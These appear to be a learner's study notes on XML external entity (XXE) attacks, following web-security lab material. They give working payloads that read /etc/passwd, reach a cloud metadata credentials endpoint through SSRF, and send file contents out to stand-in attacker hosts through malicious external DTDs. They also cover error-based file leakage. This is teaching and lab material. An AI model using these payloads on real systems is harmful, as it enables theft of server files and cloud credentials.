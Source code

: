 ## Exploiting XXE to retrieve files
 To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

- Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server: 
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>381</productId>
</stockCheck>
```
You can exploit the XXE vulnerability to retrieve the /etc/passwd file by submitting the following XXE payload: 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

> **Note:**  
> 
> With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response. 

## Perform SSRF: (lab)
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```  

# Blind XXE
## Detecting blind XXE using out-of-band (OAST) techniques
Let's say there's a POST request which sends the following xml:
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>3</storeId>
</stockCheck>
```
Insert external entity and replace the productId number with a reference to the external entity: 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://your-domain.com"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>3</storeId>
</stockCheck>
```
Then go to your server and look at request logs

## Blind XXE with out-of-band interaction via XML parameter entities
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name: 
```
<!ENTITY % myparameterentity "my parameter entity value" >
```
And second, parameter entities are referenced using the percent character instead of the usual ampersand: 
```
%myparameterentity;
```
This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows: 
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```
This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

Lab solution:
There's a request:
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId><storeId>1</storeId>
</stockCheck>
```
Change to:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://your-server.com"> %xxe; ]>
<stockCheck>
<productId>1</productId><storeId>1</storeId>
</stockCheck>
```
And check logs on your server. Most likely we'll need to check logs on our DNS server first

## Exploiting blind XXE to exfiltrate data out-of-band
What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the /etc/passwd file is as follows: 
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
This DTD carries out the following steps:
- Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
- Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
- Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:
`http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:
``` 
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
``` 

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the /etc/passwd file is transmitted to the attacker's server. 

> Note
> 
> This technique might not work with some file contents, including the newline characters contained in the `/etc/passwd` file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as `/etc/hostname` can be targeted instead.

## Lab (Burp Collab only): Exploiting blind XXE to exfiltrate data using a malicious external DTD
There's an endpoint:
```
POST /product/stock
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```
Create maicious DTD file and save it on your server:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil
```

Stopped solving the lab because didn't have burp collaborator and it also felt that xml vulnerabilities are not interesting...

## Exploiting blind XXE to retrieve data via error messages
You can trigger an XML parsing error message containing the contents of the /etc/passwd file using a malicious external DTD as follows:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
This DTD carries out the following steps:
- Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called error. The error entity will be evaluated by loading a nonexistent file whose name contains the value of the file entity.
- Uses the eval entity, which causes the dynamic declaration of the error entity to be performed.
- Uses the error entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the /etc/passwd file.

